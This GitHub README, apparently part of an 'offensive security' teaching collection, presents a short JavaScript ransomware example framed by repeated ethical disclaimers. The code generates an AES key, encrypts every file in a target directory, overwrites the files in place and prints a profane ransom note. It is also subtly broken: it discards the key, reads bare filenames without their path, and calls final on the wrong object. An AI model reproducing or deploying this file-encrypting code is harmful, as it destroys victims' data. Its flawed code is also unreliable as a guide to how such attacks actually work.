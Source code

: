 # JADE - Code in JavaScript (Example)
##### RedTeam - Techniques for 'Offensive Security' by Volkan Sah - Simple Codings for Offensive Security (update 02/2023)

⚠️ Please note that exploiting security vulnerabilities without permission and creating or using ransomware is illegal and unethical, and may result in criminal charges. Use this informations responsibly and only on networks you have permission to access. ⚠️

Ransomware attacks are one of the most destructive and malicious types of cyber threats, often resulting in significant financial losses and personal data theft. It is important to understand the mechanisms of ransomware attacks in order to protect yourself and your systems from these malicious threats.

This JavaScript code provides a simplified example of a ransomware attack and its underlying techniques. It is intended for educational and ethical hacking purposes only, and should not be used for any illegal or unethical activities. It is important to always abide by the law and use technology responsibly and ethically to promote positive outcomes for society.


## Example 
```javascript
// Ransomware code (for demonstration purposes only)
var fs = require('fs');
var crypto = require('crypto');

// Directory to target for file encryption
var targetDirectory = '/user/files';

// Once the encryption key is generated, the code will read all files in the target directory.
var encryptionKey = crypto.randomBytes(32).toString('hex');

// Read all files in the target directory
fs.readdirSync(targetDirectory).forEach(file => {
  // Skip directories
  if (fs.lstatSync(file).isDirectory()) return;

  // Read file data
  var data = fs.readFileSync(file);

  // Encrypt file data with encryption key
  var encryptedData = crypto
    .createCipher('aes-256-cbc', encryptionKey)
    .update(data, 'utf8', 'hex') +
    crypto.createCipher.final('hex');

  // writing encrypted data back to file
  // Finally, the code will display a ransom note to the user, demanding payment in exchange for the decryption key.

  fs.writeFileSync(file, encryptedData);
});

// Display ransom note to user
var ransomNote = `
Your files have been encrypted!
e.g go fuck off
`;

console.log(ransomNote);

```

##  Note
As technology continues to advance, it's more important than ever to protect ourselves and our systems from malicious attacks. With the rise of dangerous JavaScript techniques that can be executed through the browser, it's crucial to take proactive measures to safeguard your browsing experience. By utilizing browser add-ons such as NoScript and Privacy Badger, you can protect yourself from potential threats and enjoy a safer, more secure online experience. Remember, it's not just about protecting yourself - it's about promoting a culture of responsible technology use that benefits society as a whole

## Disclaimer
The developer of this script is not responsible for any misuse or damage caused by this tool. It is the user's responsibility to ensure that they have the necessary permissions to use this tool on their chosen networks. Only for educational and ethical hacking purposes only!

## Issues
Issues to this script are not accepted as it is intended for educational purposes only and not for production use.

## WARNING! AGAIN!
**⚠️ exploiting security vulnerabilities without permission and creating or using ransomware is illegal and unethical, and may result in criminal charges. ⚠️**
### Thank you for your support!
- If you appreciate my work, please consider [becoming a 'Sponsor'](https://github.com/sponsors/volkansah), giving a :star: to my projects, or following me. 
### Copyright
- [VolkanSah on Github](https://github.com/volkansah)
- [Developer Site](https://volkansah.github.io)

### License
This project is licensed under the MIT - see the [LICENSE](LICENSE) file for details


